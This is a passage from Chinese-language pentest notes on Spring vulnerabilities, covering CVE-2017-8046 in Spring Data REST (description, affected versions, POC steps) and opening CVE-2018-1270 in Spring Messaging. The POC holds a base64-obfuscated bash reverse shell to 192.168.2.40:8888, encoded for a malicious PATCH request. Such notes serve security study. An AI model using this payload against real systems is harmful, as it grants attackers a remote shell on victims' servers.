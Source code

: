 **但是该漏洞，暂无良好的发现or扫描方式，导致实用性极差.**

## 3、Spring Data Rest远程命令执行命令（CVE-2017-8046）







简单介绍：

Spring Data是对数据访问的更高抽象。通过它，开发者进一步从数据层解放出来，更专注于业务逻辑。不管是关系型数据还是非关系型数据，利用相应接口，开发者可以使用非常简单的代码构建对数据的访问。

漏洞原理：

Pivotal官方发布通告表示Spring-data-rest服务器在处理PATCH请求时存在一个远程代码执行漏洞（CVE-2017-8046）。攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。

影响版本：

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3


Spring Boot version < 2.0.0M4


Spring Data release trains < Kay-RC3

可能特征：

Restful风格的API服务器

POC：

第一步：

```
",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"))))
```

第二步十进制编码：

![](/zj_img/WEBRESOURCEd189de73ccdc0cac505cc8182e7c3bc5截图.png)

第三步：

![](/zj_img/WEBRESOURCEba857f96719eeb5128fe8b3ad93a74a6截图.png)

**该漏洞因为涉及编码等问题，以及无明显特征，同样实用性较低**

## 4、Spring Messaging远程命令执行突破（CVE-2018-1270）

Spring框架中的 spring-messaging 模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，在spring messages中，其允许客户端订阅消息，并使用selector过滤消息，selector用SpEL表达编写，并使用StandardEvaluationContext解析，攻击者可以通过构造恶意的消息来实现远程代码执行。

影响范围：

Spring Framework 5.0 to 5.0.4.
